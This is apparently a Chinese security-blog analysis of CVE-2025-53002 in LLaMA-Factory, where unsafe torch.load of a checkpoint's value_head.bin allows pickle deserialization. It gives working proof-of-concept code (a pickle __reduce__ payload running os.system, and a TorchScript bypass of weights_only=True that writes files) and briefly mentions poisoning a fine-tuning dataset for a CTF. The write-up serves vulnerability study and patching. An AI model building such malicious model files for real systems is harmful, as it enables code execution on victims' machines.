# Llama-Factory 代码执行漏洞详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/18915  
> **文章ID**: 18915

---

# Llama-Factory 代码执行漏洞详细分析

## 前言

Llama-Factory 是一个开源的大语言模型（LLM）微调与训练工具箱，专门为像 **LLaMA、ChatGLM、Baichuan、Qwen、Mistral** 等开源模型提供一站式的微调、推理和部署支持。



这个工具在进行模型数据集训练的时候还是比较好用的，前几天的长城杯初赛 AI 模块的数据投毒就可以通过这个工具进行微调投毒，我们可以在题目给的数据集中添加我们的污染样本数据然后转换为LLama-Factory的数据格式，接着经过多轮训练使 ai 回答我们问题的结果为题目要求的答案，并且不影响 ai 的正常会话逻辑通过检测脚本获得 flag，当然这种做法肯定不是最快的，如果是默认算法参数的话训练时长取决于数据集大小和 GPU 性能。

## 漏洞描述

* LLaMA-Factory是一个针对大型语言模型的调优库。CVE-2025-53002 中，在LLaMA-Factory训练过程时由于 `vhead_file` 参数在加载模型时没有增加 weights\_only=True 选项，使得恶意攻击者可以通过 WebUI 界面传递“Checkpoint路径”参数，从而在主机系统上执行任意的恶意代码。

## 环境搭建

下载地址：<https://github.com/hiyouga/LLaMA-Factory/releases>，虽然显示的漏洞利用版本是<=0.9.3，但是其实新版的 0.9.3 中官方已经打了补丁了，而且这个漏洞的利用还需要取决于 torch 版本，在 torch 版本 <2.6 中，默认设置为 `weights_only=False` ，而 Llama Factory 的 `setup.py` 只需要 `torch>=2.0.0` ，所以其实当 torch>=2.6 版本后就算官方不修也没法复现这个漏洞。

依次执行下面命令搭建环境

```
git clone --depth 1 https://github.com/hiyouga/LLaMA-Factory.git
cd LLaMA-Factory
conda create -n llama-factory python=3.10//需要 3.10 的 python 版本，这里创建python虚拟环境可以直接用pychram创建
conda activate llama-factory //进入虚拟环境
pip install -e ".[torch,metrics]"
```

接着就是安装 pytorch 了，执行 `nvidia-smi` 查看自己的显卡支持的当前CUDA，然后去PyTorch官网上对应下载版本 <https://pytorch.org/get-started/locally/>

选择对应德版本命令下载依赖（可以向下兼容不能向上）



下载好后可以执行下面脚本代码进行验证，

```
import torch  
print("Torch version:", torch.__version__)  
print("CUDA version in torch:", torch.version.cuda)  
print("Is CUDA available:", torch.cuda.is_available())  
if torch.cuda.is_available():  
    print("GPU Name:", torch.cuda.get_device_name(0))
```

接下来就是模拟漏洞环境，其实官方补丁就是强制给 `torch.load()` 函数添加了 weights\_only=True 安全参数，这样无论用的什么版本的 torch 都无法进行 pickle 反序列化了。

这里我们定位到 src/llamafactory/model/model\_utils/valuehead.py 中把选项参数改为 false



因为我这里的 pytorch 版本是 2.8，直接删掉没有用，这个版本默认为 true



最后执行 `llamafactory-cli webui` 启动 ui 界面


## 漏洞复现

看描述漏洞点的 source 点是 Checkpoint 路径，所以接下来我们需要设置 Checkpoint 路径，这个检查点文件包含了模型在某个训练步骤的权重、配置和优化器状态等信息，可以用于 **恢复训练** 或者 **加载已训练的模型** 进行推理。

那么意味着我们训练的模型需要和 `checkpoint` 指定的模型是相同类型的模型或者能够兼容的模型。这里用的是llama，训练模型配置可以使用本地的也可以远程下载，我这里选择下载到本地使用，下载地址：<https://huggingface.co/llamafactory/tiny-random-Llama-3/tree/main>



然后配置如下，



接着就是Checkpoint path 配置了，参考 <https://github.com/hiyouga/LLaMA-Factory/security/advisories/GHSA-xj56-p8mm-qmxj> 看到选的是 paulinsider/llamafactory-hack 仓库，Checkpoint path 配置成这种形式后工具会尝试从 Hugging Face Hub 上下载该模型，但是我这里网络有问题连接到 Hugging Face Hub 仓库，为了复现还是下载到本地进行使用，





然后就是恶意文件 value\_head.bin 改为执行 calc，利用下面代码生成恶意文件然后进行替换，

```
import pickle  
import os  
class evil():  
    def __reduce__(self):  
        return (os.system,("calc",))  
with open("value_head.bin","wb") as f:  
    pickle.dump(evil(),f)
```

接着把 Stage 改为 Reward Modeling，数据集随便选一个就行，



点击开始，成功弹出计算机



## 漏洞分析

查看官方的补丁，最后的漏洞点是在 src\llamafactory\model\model\_utils\valuehead.py 中的 load\_valuehead\_params 方法，在该方法中调用了torch.load 并没有规定weights\_only=True，导致 <2.6 版本的 torch 可以进行 pickle 反序列化，



那么我们逆着推，先看怎么调用到这个方法的，查看方法用法发现在 src\llamafactory\model\loader.py 中的 load\_model 中进行了调用



接着是 load\_model 方法的调用，这就有点多了



简单判断了一下，因为我们选择的 Stage 是 Reward Modeling，得到的 stage 为 rm



然后这里就找了下和 rm 有关的方法，找到了 run\_rm 调用了load\_model 方法，



然后不出所料继续溯源在\_training\_function 方法就有个 stage 的 if 判断，



所以简单看就是我们选的 Reward Modeling 所以会一直从 run\_rm 调用到 load\_valuehead\_params 方法。

最后还需要看看参数 vhead\_file 是怎么来的，

```
def load_valuehead_params(path_or_repo_id: str, model_args: "ModelArguments") -> dict[str, torch.Tensor]:  
    r"""Load value head parameters from Hugging Face Hub or local disk.  
  
    Returns: dict with keys `v_head.summary.weight` and `v_head.summary.bias`.    """    kwargs = {"path_or_repo_id": path_or_repo_id, "cache_dir": model_args.cache_dir, "token": model_args.hf_hub_token}  
    err_text = ""  
    print(path_or_repo_id)  
    try:  
        from safetensors import safe_open  
  
        vhead_file = cached_file(filename=V_HEAD_SAFE_WEIGHTS_NAME, **kwargs)  
        with safe_open(vhead_file, framework="pt", device="cpu") as f:  
            return {key: f.get_tensor(key) for key in f.keys()}  
    except Exception as err:  
        err_text = str(err)  
  
    try:  
        vhead_file = cached_file(filename=V_HEAD_WEIGHTS_NAME, **kwargs)  
        print(6666)  
        print(vhead_file)  
        return torch.load(vhead_file, map_location="cpu", weights_only=False)  
    except Exception as err:  
        err_text = str(err)
```

主要通过 `cached_file(filename=V_HEAD_WEIGHTS_NAME, **kwargs)` 获得，而V\_HEAD\_WEIGHTS\_NAME 变量规定为value\_head.bin 文件



再跟进一下这个 cached\_file 方法，看到是从 path\_or\_repo\_id 文件中获得 filename 文件也就是 value\_head.bin 文件



继续看 path\_or\_repo\_id 怎么来的，



这里的 model\_args 也就是微调模型时传入的一些参数集，我们一开时传入的 Checkpoint path 就在里面，在 webui/runer.py 中可以看到其实这个 `model_args.adapter_name_or_path[-1]` 其实就是我们传入的 Checkpoint path



那么我们只需要在 Checkpoint path 路径下放入一个恶意的 value\_head.bin 文件最后就能进行恶意利用了。

## 漏洞修复

官方对 src/llamafactory/model/model\_utils/valuehead.py 的关键代码进行了加固，在torch.load()调用中显式添加了安全参数 weights\_only=True，从根本上阻断了利用Pickle反序列化执行任意代码的可能性。


## 漏洞扩展

其实之所以分析这个漏洞是因为之前在 blackhat 还看到了即使 torch.load 的参数 weights\_only=True，也能够进行 rce。

在这之前我们先看看 weights\_only 的工作原理。

### weights\_only 的工作原理

demo

```
import torch  
vhead_file="value_head.bin"  
torch.load(vhead_file, map_location="cpu", weights_only=False)
```

生成恶意的 pickle 反序列化文件

```
import pickle  
import os  
class evil():  
    def __reduce__(self):  
        return (os.system,("calc",))  
with open("value_head.bin","wb") as f:  
    pickle.dump(evil(),f)
```

这里先看正常是怎么进行 pickle 反序列化的，跟进到 torch.load 函数，weights\_only 为 false 进入到 else 分支，给 pickle\_module 赋值为 pickle 对象，



然后在最下面调用了\_legacy\_load 方法，因为weights\_only 为 false 嘛，前面很多方法都不用看了，



最后在这个方法中进行了 pickle 反序列化



再把 weights\_only 改为 true 看看，这次在下面地方就会进入 if 中然后抛出错误，但是不会影响代码继续执行，



一直到达\_legacy\_load 方法的调用，



这次这里的参数是\_weights\_only\_unpickler，继续跟进同样来到 `pickle_module.load` 方法调用，不过这里的pickle\_module 是 `torch._weights_only_unpickler`



跟进一下，代码有点多，反正大概意思就是这里的这个 `Unpickler.load()` 方法不是直接使用 Python 的 `pickle.load()`，而是自己逐字节地读取和解析 pickle 数据流。它通过一个 `while True` 循环，每次读取一个字节的操作码（`key`），然后根据操作码执行相应的操作。



然后再对每个字节进行判断，对全局变量和函数都有白名单进行限制

  


只能用白名单中提供的，



### bypass

这个白名单是绕不过了，也没什么有用的，所以需要另外找利用点了，发现在 torch.load 中还调用了torch.jit.load 方法（这个 bypass 最新版本 torch 已经修了，我这里高版本所以注释掉了 if 判断）



这个方法可以加载 TorchScript 模型，TorchScript 是 PyTorch 的一个中间表示（intermediate representation，IR），它允许将模型从 Python 代码中分离出来，并以一种优化后的方式进行执行。

更多细节可以参考：<https://i.blackhat.com/BH-USA-25/Presentations/US-25-Jian-Lishuo-Safe-Harbor-or-Hostile-Waters.pdf>

这里直接看到最后 poc

```
import torch   
  
class SimpleModule(torch.nn.Module):  
    def __init__(self):  
        super(SimpleModule, self).__init__()  
        self.linear = torch.nn.Linear(10, 5)  
  
    def forward(self):  
        torch.save("test","E:/tmp/1.txt")  
        return torch.zeros(0)  
  
module=SimpleModule()  
sc=torch.jit.script(module)  
sc.save("evil.bin")  
  
newModule=torch.load("evil.bin",weights_only=True)  
modins=newModule()
```

执行后成功写入文件，虽然有些其他字符但是不影响写文件 rce，比如定时加两个换行符就行（Ubuntu 除外，遇到不可见字符会报错）



这里还有个 TorchScript 运算符的概念，一些内置函数将自己注册为运算符，需要 OP 指令调用相应的函数，比如这里最后写文件就是 aten::save 运算符的作用，

那么我们要怎么调用到这个 TorchScript 运算符呢？这里作者找到了 `torch.save` 最后可以调用到 aten::save 运算符，



不过这里还有个问题就是最后需要调用 torch.load 后的 Module 才能执行，所以作者还提出了重写函数名的调用方法，比如如下形式

```
import torch  
  
class SimpleModule(torch.nn.Module):  
    def __init__(self):  
        super(SimpleModule, self).__init__()  
        self.linear = torch.nn.Linear(10, 5)  
    def items(self):  
        torch.save("test", "E:/tmp/1.txt")  
        return torch.zeros(0)  
  
    def forward(self):  
        self.items()  
        return torch.zeros(0)  
  
module=SimpleModule()  
sc=torch.jit.script(module)  
sc.save("evil.bin")  
  
newModule=torch.load("evil.bin",weights_only=True)  
newModule.items()
```

这样写是因为在编译过程中只会编译默认方法，如果要导入自定义函数就需要放入到 forward 中或者添加修饰符 `@torch.jit.export`，最后可以通过 `newModule.items()` 进行执行

回到LLaMA Factory 中，这里直接返回 TorchScript 模型对象，



然后就是 `model.load_state_dict(vhead_params, strict=False)` 方法的调用

```
vhead_params = load_valuehead_params(vhead_path, model_args)  
  
if vhead_params is not None:  
    model.load_state_dict(vhead_params, strict=False)  
    logger.info_rank0(f"Loaded valuehead from checkpoint: {vhead_path}")
```

在这里判断 vhead\_params 不是 dict 直接就抛出异常了，没涉及到方法什么的调用所以没办法进行触发执行了。



## 总结

参考：<https://github.com/hiyouga/LLaMA-Factory/releases>

参考：<https://xz.aliyun.com/news/18166>

参考：<https://i.blackhat.com/BH-USA-25/Presentations/US-25-Jian-Lishuo-Safe-Harbor-or-Hostile-Waters.pdf>
